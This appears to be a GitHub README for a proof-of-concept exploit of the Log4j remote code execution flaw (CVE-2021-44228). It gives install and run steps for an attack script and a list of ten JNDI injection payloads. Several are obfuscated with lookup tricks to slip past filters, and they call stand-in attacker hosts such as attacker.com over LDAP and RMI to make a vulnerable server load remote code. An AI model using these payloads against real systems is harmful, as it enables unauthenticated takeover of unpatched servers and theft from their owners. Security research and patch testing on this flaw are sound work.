 # CVE-2021-44228 – Log4j RCE Unauthenticated

## About

This is a proof-of-concept exploit for Log4j RCE Unauthenticated (CVE-2021-44228).

This vulnerability [`affects versions < 2.15.0`](https://logging.apache.org/log4j/2.x/security.html).

For more information:

https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j

## Contributors

[@pedrohavay](https://twitter.com/pedrohavay)

# Disclaimer

This project is created only for **educational purposes** and cannot be used for law violation or personal gain.

The author of this project is not responsible for any possible harm caused by the materials of this project.

# Demo

![image](demo.gif)

# Installation

    git clone https://github.com/pedrohavay/exploit-CVE-2021-44228
    cd exploit-CVE-2021-44228
    pip install -r requirements.txt

# Usage

1. Use the script

        python3 main.py

# Payloads

    ${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
    ${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
    ${jndi:rmi://adsasd.asdasd.asdasd}
    ${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
    ${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
    ${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
    ${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
    ${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//your.burpcollaborator.net/a}
    ${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}
    ${${date:'j'}${date:'n'}${date:'d'}${date:'i'}:ldap://localhost:12345/Exploit}

# Requirements

- Python 3
- Java (JDK)
